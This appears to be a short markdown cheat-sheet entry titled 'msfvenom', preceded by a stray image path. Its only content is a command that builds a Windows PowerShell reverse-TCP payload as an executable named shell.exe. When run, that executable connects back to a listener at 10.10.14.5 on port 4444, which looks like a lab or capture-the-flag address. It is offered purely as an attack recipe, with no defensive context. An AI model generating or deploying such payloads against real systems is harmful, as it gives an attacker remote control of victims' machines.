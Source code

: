 # msfvenom

## Windows Powershell Reverse TCP EXE
```
msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe > shell.exe
```
